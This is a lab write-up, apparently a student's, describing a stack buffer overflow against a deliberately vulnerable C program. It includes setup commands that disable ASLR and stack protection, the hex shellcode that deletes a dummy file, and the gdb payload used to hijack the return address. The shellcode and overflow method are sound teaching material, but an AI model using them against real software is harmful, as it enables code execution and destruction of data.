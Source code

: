# DELETE DUMMYFILE USING INJECTION CODE

## Target

- Delete `dummyfile` file by using `buffer overflow` to `inject code` into `vuln.c` file

## Prepare for lab

- Create `dummyfile` without format using:

  > touch dummyfile

![Ảnh chụp màn hình 2024-09-17 094329](https://github.com/user-attachments/assets/00df81ee-674f-478c-9c09-b34c62a215da)

- Change to shell `/bin/sh`

  > sudo ln -sf /bin/zsh /bin/sh

- Turn off OS’s address space layout randomization:

  > sudo sysctl -w kernel.randomize_va_space=0

![Ảnh chụp màn hình 2024-09-17 095310](https://github.com/user-attachments/assets/6e5b58a3-7ac7-4870-806b-499b9a2bf658)

- Compile and link the `file_del.asm` code using 2 commands:

  > nasm -g -f elf file_del.asm

  > ld -m elf_i386 -o file_del file_del.o

![Ảnh chụp màn hình 2024-09-17 100229](https://github.com/user-attachments/assets/a3ea15ac-5d75-498e-8adc-7f0eac6cf64c)

- Hexstring of my `file_del.asm` using:

  > for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

![Ảnh chụp màn hình 2024-09-17 101643](https://github.com/user-attachments/assets/aeaa04d3-fe70-4da8-8d99-e1e752bc17af)

- But we don't need `\xdummyfile` at the end, so we have:

  > \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

- Stack frame of `vuln.c`.

![Ảnh chụp màn hình 2024-09-17 103054](https://github.com/user-attachments/assets/4a0f9a06-5b08-4eb1-96bd-87167d56176b)

- Compile the `vuln.c` program using:
  > gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

## execution.

- I will set two breakpoint at `0x804843e` and `0x804846b`.

![Ảnh chụp màn hình 2024-09-17 103936](https://github.com/user-attachments/assets/64e07722-d58e-4ea7-ad9e-65b00fa7b487)

- If we want to execute the `file_del.asm` code on stack, we need to overflow the buffer so that `return address` points to the top of `esp` where the code will lies. It will be `36 bytes of hexstring + 32 padding bytes + 4 bytes of esp`. I will use `\xff\xff\xff\xff` to identify `Return Address`, use command:

> r $(python –c “print(‘\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00’ + ‘a’\*32 + ‘\xff\xff\xff\xff)”)

![Ảnh chụp màn hình 2024-09-17 105402](https://github.com/user-attachments/assets/6268b9b7-4d87-45c3-b217-995e4fef445a)

- The red address is `ebp`.
- The green address is `Return Address`.
- We `continue`

![Ảnh chụp màn hình 2024-09-17 105952](https://github.com/user-attachments/assets/a5373985-2e18-4c68-843f-585c41af45aa)

- Comparing to the hexstring, the first 3 values are the same buf after that everything is different and `Return Address` is not `\xff\xff\xff\xff`.

  - We have `\x0a(/n)` in the hexstring.
  - `\x00` have problem in 32 bits register `eax`.

![Ảnh chụp màn hình 2024-09-17 110946](https://github.com/user-attachments/assets/3e26783d-ccda-4009-b1b2-d019b622a806)

- In the `file_del.asm`:

![Ảnh chụp màn hình 2024-09-17 204933](https://github.com/user-attachments/assets/fcc6436d-d366-4d84-8e9e-5d1ed44220ea)

- The `\x0a` comes from the line `move eax, 10`.
- The `\x00` comes from `eax`. Because `eax` is 32 bits register so when we move a small value into `eax`, the high bits of this register (24 bits) will automatically be filled with `0`.

- We need to edit a few lines of code in `file_del.asm`:

  - Use `al` register. Because this is the lowest 8-bit part of the `eax` register. When you move a value into `al`, only 8-bits (1 byte) are changed, not affecting the rest of `eax`.
  - Clear the `eax` register using command:
    > xor eax, eax
  - Replace `move eax, 10` with:

    > mov al, 8

    > add al, 2

![Ảnh chụp màn hình 2024-09-17 210413](https://github.com/user-attachments/assets/dd513035-9961-4431-9ff3-d97058b5a69e)

- We recompile `file_del.asm`, get the new hexstring and run the program.

  - The new hexstring is `\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

![Ảnh chụp màn hình 2024-09-17 211047](https://github.com/user-attachments/assets/25e5e582-d0e9-46cd-bcd7-3b12301ee1ba)

- At the end still `\x00`, I will change it to `\x01`. Now, the `Return Address` is `\xff\xff\xff\xff`.

![Ảnh chụp màn hình 2024-09-17 212405](https://github.com/user-attachments/assets/f503a561-6b50-4dae-81db-8775db9cf862)

- We will change the address `0xffffd63c`(the first `\xff`) to the address of `esp` `0xffffd5f8`, set the address `0xffffd61b` to `\x00` and `continue`.

![Ảnh chụp màn hình 2024-09-17 213453](https://github.com/user-attachments/assets/bbcbd0b3-3536-4ce7-90c5-65ad742153a6)

![Ảnh chụp màn hình 2024-09-17 213630](https://github.com/user-attachments/assets/52a4c003-22b6-4a62-9a7c-a0dc910f8efa)

- But dummyfile has not been deleted yet!

- Look at `file_del`.

![Ảnh chụp màn hình 2024-09-17 215849](https://github.com/user-attachments/assets/aaf9510a-dc9a-4258-a43f-6a148d0d8c86)

- `dummyfile` is stored at address `0x0804807a` including bytes `64 75 6d 6d 79 66 69 6c 65 00`. The command `mov ebx,_filename` causes the `ebx` register to `point to the address of _filename` here which is `0x0804807a`. What we just "deleted" is to make the `ebx` register `no longer point to the address of _filename`, not delete the `dummyfile`. So we need to `set the address of dummyfile in the program to the address of ebx`.

![Ảnh chụp màn hình 2024-09-17 221609](https://github.com/user-attachments/assets/4c83892e-f4e6-4b6d-b187-9881b9c2b4aa)

![Ảnh chụp màn hình 2024-09-17 221857](https://github.com/user-attachments/assets/a684d448-36f1-4e3a-a3b6-24bc7c2ef6fd)

- `dummyfile` has been deleted. The lab is done.
